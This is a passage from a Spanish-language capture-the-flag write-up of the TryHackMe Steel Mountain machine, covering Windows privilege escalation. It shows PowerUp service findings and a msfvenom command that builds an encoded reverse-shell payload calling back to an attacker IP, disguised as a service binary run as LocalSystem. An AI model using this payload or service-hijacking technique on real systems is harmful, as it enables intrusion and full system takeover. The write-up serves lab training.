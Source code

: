 ```
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files
```

Nosotros nos quedaremos con este servicio , que no es por defecto de windows y además tenemos permisos con el usuario Bill.

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```
Lo que vamos a tratar es de cambiar el programa ASCService.exe que es que ejecuta el sistema por uno nuestro malicioso, para obtener una reverse shell con privilegios utilizando un payload que crearemos con msfvenom.

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.8.85 LPORT=4455 -e x86/shikata_ga_nai -f exe -o ASCService.exe

-p -> Indicamos que es un payload
-e -> Indicamos un tipo de codificacion
-f -> Indicamos el formato
-o -> Indicamos la salida (Nombre del archivo)

Lo subimos a la maquina objetivo con el comando "upload" como antes y lo movemos a su carpeta donde se va a ejecutar.

![](/assets/images/thm-steelmountain/15.JPG)

A continuacion vamos a parar el servicio, copiamos el archivo y lo volvemos a iniciar.

![](/assets/images/thm-steelmountain/16.JPG)